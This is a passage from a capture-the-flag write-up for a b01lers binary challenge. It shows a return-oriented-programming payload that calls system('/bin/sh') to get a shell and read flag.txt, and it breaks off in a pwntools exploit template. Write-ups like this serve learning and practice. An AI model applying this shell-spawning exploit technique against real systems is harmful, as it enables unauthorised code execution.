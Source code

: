 ### Getting a shell and flag

Now we're back in the main function and we know the address of libc.
We've calculated the address of the string `"/bin/sh\x00"` and the `system` function.
We can use this in a second payload to call `system("/bin/sh")` and get a shell:

```py
shell_payload = flat({
    fault: [
        ret,
        pop_rdi,
        bin_sh,
        system,
        ]
    })
```

Now we can read the `flag.txt` file and send it back to the challenge:

```py
io.sendline('cat flag.txt')
flag = io.recvuntil('}')
io.success("Flag: {}".format(flag))
io.sendline('exit')
io.recvuntil('flag>')
io.sendline(flag)
```

We have now completed one part of the challenge.
This has to be repeated for all 9 parts and we will receive the flag for the challenge.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host chal.b01lers.com --port 4001
from pwn import *
from IPython import embed

import codecs

# Set up pwntools for the correct architecture
libc = ELF("./libc6_2.31-0ubuntu9_amd64.so")
ld = ELF("./ld-2.31.so")

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'chal.b01lers.com'
port = int(args.PORT or 4001)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    return io
```